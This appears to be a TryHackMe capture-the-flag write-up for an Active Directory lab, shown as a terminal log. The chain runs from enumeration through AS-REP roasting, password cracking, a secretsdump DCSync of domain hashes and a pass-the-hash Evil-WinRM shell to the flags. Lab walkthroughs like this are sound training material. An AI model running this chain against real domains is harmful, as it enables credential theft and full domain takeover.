







Scanning for open ports:
crazyeights@kali:~$ nmap -PS 10.10.182.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-18 19:51 EDT
Nmap scan report for 10.10.182.180
Host is up (0.13s latency).
Not shown: 989 closed ports
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3389/tcp open ms-wbt-server
crazyeights@kali:~$ nmblookup -A 10.10.182.180
Looking up status of 10.10.182.180
No reply from 10.10.182.180
Enum4linux is basically a wrapper around the Samba tools smbclient, rpcclient, net and nmblookup
crazyeights@kali:~$ enum4linux 10.10.182.180
Starting enum4linux v0.8.9 (
http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon May 18 19:56:19
2020
============================================
| Getting domain SID for 10.10.182.180 |
============================================
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
(truncated)
========================================================================
| Users on 10.10.182.180 via RID cycling (RIDS: 500-550,1000-1050) |
========================================================================
[+] Enumerating users using SID S-1-5-21-3532885019-1334016158-1514108833 and
logon username '', password ''
S-1-5-21-3532885019-1334016158-1514108833-500 ATTACKTIVEDIREC\Administrator
(Local User)
S-1-5-21-3532885019-1334016158-1514108833-501 ATTACKTIVEDIREC\Guest (Local
User)
S-1-5-21-3532885019-1334016158-1514108833-502 *unknown*\*unknown* (8)
S-1-5-21-3532885019-1334016158-1514108833-503 ATTACKTIVEDIREC\DefaultAccount
(Local User)
S-1-5-21-3532885019-1334016158-1514108833-504
ATTACKTIVEDIREC\WDAGUtilityAccount (Local User)...
crazyeights@kali:~$ nmap -A -v 10.10.182.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-18 20:08 EDT
Nmap scan report for 10.10.182.180
Host is up (0.12s latency).
Not shown: 987 closed ports
PORT STATE SERVICE VERSION
[SNIP]
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: THM-AD
| NetBIOS_Domain_Name: THM-AD
| NetBIOS_Computer_Name: ATTACKTIVEDIREC
| DNS_Domain_Name: spookysec.local
| DNS_Computer_Name: AttacktiveDirectory.spookysec.local
| Product_Version: 10.0.17763
|_ System_Time: 2020-05-19T00:08:50+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
(truncated)
crazyeights@kali:~$ nmap -p88 --script krb5-enum-users --script-args krb-enum-users.realm="THM-AD",userdb=unix_users.txt 10.10.182.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-18 20:17 EDT
Nmap scan report for 10.10.182.180
Host is up (0.12s latency).
PORT STATE SERVICE
88/tcp open kerberos-sec
(Need to use a bigger wordlist)
crazyeights@kali:~/kerbrute/dist$ ./kerbrute_linux_amd64 userenum --dc 10.10.182.180 -d THM-AD /usr/share/metasploit-framework/data/wordlists/namelist.txt
[+] VALID USERNAME: administrator@THM-AD
[+] VALID USERNAME: backup@THM-AD
[+] VALID USERNAME: james@THM-AD
[+] VALID USERNAME: James@THM-AD
[+] VALID USERNAME: robin@THM-AD
[+] VALID USERNAME: darkstar@THM-AD
[+] VALID USERNAME: paradox@THM-AD
[+] VALID USERNAME: JAMES@THM-AD
[+] VALID USERNAME: Robin@THM-AD
[+] VALID USERNAME: Administrator@THM-AD
[+] VALID USERNAME: Darkstar@THM-AD
[+] VALID USERNAME: Paradox@THM-AD
[+] VALID USERNAME: DARKSTAR@THM-AD
[+] VALID USERNAME: ori@THM-AD
[+] VALID USERNAME: svc-admin@THM-AD
crazyeights@kali:~$ echo -e
"Administrator\njames\nrobin\ndarkstar\nbackup\nparadox\nsvc-admin\nori" >
ad_users.txt
crazyeights@kali:~$ cat ad_users.txt
Administrator
james
robin
darkstar
Backup
paradox
svc-admin
ori
crazyeights@kali:~$
crazyeights@kali:~$ python GetNPUsers.py spookysec.local/ -usersfile /home/crazyeights/ad_users.txt -no-pass -dc-ip 10.10.182.180
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in
Kerberos database)
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:25de918b3ab665ed68bd7599b3dc97b3$5594
ef4634fac0eef41869a298631f320e2a194e50a9661c15fed12a8e3bec61d4e61e190d1316a08
e1e155bcbbcab0f791ee50ecdef2a2be283fa9aabb5ee06526c46be2a93e4055a5aedbc69b07b
38da7088f8a59f3e8b328a97731acea271d6f6d12a6a3a0b10a1741540947de63c48792c76fb2
4713d8d878ee455201f1073f8f4a5e1bb4376437e3b2ad34a2fb38364f9a39f37a90fe0d23ed8
70a7e09d9b2d40d1cebe506ddce873c30c2f070ca2e6025bec26ee80331eff8450e13c66ffe55
534ea7e121c2476e769de9017d587c7cdf23b2b09ef27fcb7712e98944550b99dc2d5d425be02
479d4540d057358f6c
[-] User ori doesn't have UF_DONT_REQUIRE_PREAUTH set
crazyeights@kali:~$ john -wordlist=lists/rockyou.txt -rules krb_ad_hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4
HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Warning: invalid UTF-8 seen reading ~/.john/john.pot
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005 ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)1g 0:00:00:05 DONE (2020-05-18 22:04) 0.1834g/s 1071Kp/s 1071Kc/s 1071KC/s
manaia05..mamitanachi
Use the "--show" option to display all of the cracked passwords reliably
Session completed
crazyeights@kali:~$
Using rpcclient:
crazyeights@kali:~$ rpcclient 10.10.182.180 -U svc-admin
Enter WORKGROUP\svc-admin's password:
rpcclient $>
rpcclient $> srvinfo
10.10.182.180 Wk Sv PDC Tim NT
platform_id: 500
os version: 10.0
server type: 0x80102b
rpcclient $>
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[skidy] rid:[0x44f]
user:[breakerofthings] rid:[0x450]
user:[james] rid:[0x451]
user:[optional] rid:[0x452]
user:[sherlocksec] rid:[0x453]
user:[darkstar] rid:[0x454]
user:[Ori] rid:[0x455]
user:[robin] rid:[0x456]
user:[paradox] rid:[0x457]
user:[Muirland] rid:[0x458]
user:[horshark] rid:[0x459]
user:[svc-admin] rid:[0x45a]
user:[backup] rid:[0x45e]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[dc] rid:[0x45d]
New IP: 10.10.105.247
List shares:
  Checking backup:
 YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw from base64: backup@spookysec.local:backup2517860
None of the other shares have anything helpful in them.
crazyeights@kali:~/impacket/examples$ python secretsdump.py -just-dc-user backup spookysec.local/backup:backup2517860@10.10.105.247
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
[*] Kerberos keys grabbed
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
[*] Cleaning up...
crazyeights@kali:~/impacket/examples$ python secretsdump.py -just-dc spookysec.local/backup:backup2517860@10.10.105.247
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
(truncated)
[*] Cleaning up...
Using Evil-WinRM for remote access:
crazyeights@kali:~/evil-winrm-master$ evil-winrm -i 10.10.105.247 -u Administrator -H e4876a80a723612986d7609aa5ebc12b
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents>
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Directory: C:\Users\Administrator\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 4/4/2020 11:39 AM 32 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users\svc-admin\Desktop
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> dir
Directory: C:\Users\svc-admin\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 4/4/2020 12:18 PM 28 user.txt.txt
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> type user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
*Evil-WinRM* PS C:\Users\svc-admin\Desktop>
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> cd C:\Users\backup\Desktop
*Evil-WinRM* PS C:\Users\backup\Desktop> dir
Directory: C:\Users\backup\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 4/4/2020 12:19 PM 26 PrivEsc.txt
*Evil-WinRM* PS C:\Users\backup\Desktop> type PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}
*Evil-WinRM* PS C:\Users\backup\Desktop>
FIN.